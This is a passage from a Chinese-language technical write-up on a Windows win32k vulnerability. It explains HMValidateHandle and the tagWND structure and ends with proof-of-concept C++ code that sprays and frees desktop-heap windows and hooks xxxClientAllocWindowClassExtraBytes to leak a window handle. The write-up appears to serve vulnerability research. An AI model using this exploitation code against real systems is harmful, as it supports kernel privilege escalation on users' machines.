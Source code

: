     2.3 User32!HMValidateHandle 函数
    

*   HMAllocObject 创建了桌面堆类型句柄后，会把 tagWND 对象放入到内核模式到用户模式内存映射地址里。 为了验证句柄的有效性，窗口管理器会调用 User32!HMValidateHandle 函数读取这个表。函数将句柄和句柄类型作为参数，并在句柄表中查找对应的项。如果查找到对象, 会返回 tagWND 只读映射的对象指针，通过 tagWND 这个对象我们可以获取到句柄等一系列窗口信息。
    
*   HMValidateHandle 是个未公开函数，可以用 IsMenu 第一个 call 定位此函数。
    

*   **第 179 行代码可以看出 tagWnd + 0 保存着创建句柄。**
    
*   **第 180 行代码可以看出 tagWnd + 8 位置保存着 tagWND 地址与桌面堆地址的偏移。**
    

*   第 526 行代码我们可以看出系统使用 HMAllocObject 创建 tagWND，其参数分别为 pticurrent 当前线程信息 ,Object 为 ptiCurrent->rpdesk，Type 类型 1 为 Window, 空间大小 (此类型无意义，会使用用户句柄表获取类型大小)
    
*   第 540 行代码是一些对 tagWND 信息初始化。
    

6.  **难点解决**  
    好在回调 user32!_xxxClientAllocWindowClassExtraBytes 函数时候内核已经调用完了 win32kbase!HMAllocObject，此时 HWND 已经存放在内存之中。**我们可以创建足够多的窗口让其泄露 tagWND 映射的对象指针，然后再摧毁大多数窗口使得桌面堆能回收这些对象空间。目前我们已经获取了这些休闲的对象地址，当我们再创建一个窗口时候桌面堆会优先使用休闲空间，我们只需要在 hook user32!_xxxClientAllocWindowClassExtraBytes 时候搜索查找刚刚摧毁掉的窗口 tagWND 指针，根据一些特征识别指定窗口就能或者到 HWND 了！！！**
    
7.  POC 开发关键代码
    

```
        //alloc 50 desktop heap address
        for (int i = 0; i < 50; i++) {
            g_hWnd[i] = CreateWindowEx(NULL, L"Class1", NULL, WS_VISIBLE, 0, 0, 1, 1, NULL, hMenu, hInstance, NULL);
            g_pWnd[i] = (ULONG_PTR)fHMValidateHandle(g_hWnd[i], 1); //Get leak kernel mapping desktop heap address
        }
        //free 48 desktop heap address
        for (int i = 2; i < 50; i++) {
            if (g_hWnd[i] != NULL) {
                DestroyWindow((HWND)g_hWnd[i]);
            }
        }
         
NTSTATUS WINAPI MyxxxClientAllocWindowClassExtraBytes(unsigned int* pSize)
{
    if (*pSize == g_dwMyWndExtra) {
        ULONG_PTR ChangeOffset = 0;
 
        HWND hWnd2 = NULL;
 
        //Search free 50 kernel mapping desktop heap (cbwndextra == g_dwMyWndExtra) points to hWnd
        for (int i = 2; i < 48; i++) {
            ULONG_PTR cbWndExtra = *(ULONG_PTR*)(g_pWnd[i] + g_cbWndExtra_offset);
            if (cbWndExtra == g_dwMyWndExtra) {
                hWnd2 = (HWND)*(ULONG_PTR*)(g_pWnd[i]); //Found the "class2" window handle
                break;
            }
        }/**/
        if (hWnd2 == NULL) {
            //Found fail.
            std::cout << "Search free 48 kernel mapping desktop heap (cbwndextra == g_dwMyWndExtra) points to hWnd fail." << std::endl;
        }
        else {
            std::cout << "Search kernel mapping desktop heap points to hWnd: " << std::hex << hWnd2 << std::endl;
        }
 
```